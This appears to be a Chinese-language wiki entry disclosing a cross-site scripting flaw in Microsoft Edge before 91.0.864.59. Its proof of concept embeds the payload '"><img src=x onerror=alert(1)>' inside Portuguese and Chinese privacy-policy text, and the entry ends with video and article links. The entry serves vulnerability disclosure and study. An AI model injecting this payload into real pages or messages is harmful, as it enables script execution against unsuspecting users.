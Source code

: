 <languages />

<translate>

漏洞影響
--------

</translate>

    Microsoft Edge < 91.0.864.59

POC
---

    <b><u>SOME TEXT IN DIFFERENT LANGUAGE </u></b>
    <br>

    Políticas de Privacidade
    Usaremos seus dados pessoais para resolver disputas, solucionar problemas e aplicar nossos Termos e Condições de Uso.

    <br>

    Para prevenir abusos no app/site, o Badoo usa decisões automáticas e moderadores para bloquear contas, como parte de seu procedimento de moderação. Para isso, nós conferimos contas e mensagens para encontrar conteúdo que indicam quebra dos nossos Termos e Condições de Uso. Isso é feito através de uma




    <b><u>OUR PAYLOAD IN TEXT FORM </u></b>
    <br>
    <br>



    "><img src=x onerror=alert(1)>





    <br>
    <br>
    <br>
    Políticas de Privacidade
    Usaremos seus dados pessoais para resolver disputas, solucionar problemas e aplicar nossos Termos e Condições de Uso.一些不同語言的文字</u></b>
     <br>

     隱私政策
     我們將使用您的個人數據來解決爭議、解決問題並應用我們的使用條款和條件。

     <br>

     為了防止應用程序/網站濫用，Badoo 使用自動決策和版主來阻止帳戶作為其審核程序的一部分。  為此，我們會檢查帳戶和消息以查找表明違反我們的使用條款和條件的內容。這是通過




     <b><u>我們的文本形式的有效載荷</u></b>
     <br>
     <br>



     "><img src=x onerror=alert(1)>





     <br>
     <br>
     <br>
     隱私政策
     我們將使用您的個人數據來解決爭議、解決問題並應用我們的使用條款和條件。

<translate>

視頻
----

</translate>


    https://youtu.be/XfTN7fPtB1s

    https://youtu.be/tTEethBKkRc

    https://youtu.be/2ogwUdszDsY

<translate>

參考
----

</translate> <https://cyberxplore.medium.com/how-we-are-able-to-hack-any-company-by-sending-message-including-facebook-google-microsoft-b7773626e447>